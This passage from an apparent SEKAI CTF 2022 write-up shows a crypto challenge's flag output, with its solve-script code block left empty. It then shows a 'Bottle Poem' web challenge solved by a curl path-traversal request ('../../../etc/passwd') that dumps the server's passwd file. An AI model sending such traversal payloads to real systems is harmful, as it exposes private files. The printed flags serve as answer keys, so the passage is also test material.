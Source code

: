 ```python
```
```shell
kali@transistor:~/ctf/sekaictf/crypto_time_capsule$ python3 solve.py 
SEKAI{T1m3_15_pr3C10u5_s0_Enj0y_ur_L1F5!!!}
```

**flag**: `SEKAI{T1m3_15_pr3C10u5_s0_Enj0y_ur_L1F5!!!}`
what a nice message after i spent at least 3 hours trying to figure out how to reverse stage one without bruteforcing... 

## Bottle Poem
> Web, 146 Solves \| Author: bwjy

### Description
`Come and read poems in the bottle.`

### Solution
There was no source provided for this challenge, so we just have to navigate to `http://bottle-poem.ctf.sekai.team/` and see what we find. The URL brings us to this very simple webpage.

![pic1](https://an00brektn.github.io/img/sekaictf-2022/Pasted%20image%2020221003123419.png)

If I click on one of these links, I'm brought to a plain text file.

![asdf](https://an00brektn.github.io/img/sekaictf-2022/Pasted%20image%2020221003123501.png)

`spring.txt` looks like it's the name of the file as it's stored on the webserver, which could mean some kind of file inclusion or just a regular directory traversal vulnerability. I'll try and find `/etc/passwd` since these challenges are usually deployed in Linux docker containers, and I'll also do this using cURL so we don't flood this page with images.

```shell
kali@transistor:~/ctf/sekaictf/web_bottle_poem$ curl 'http://bottle-poem.ctf.sekai.team/show?id=../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
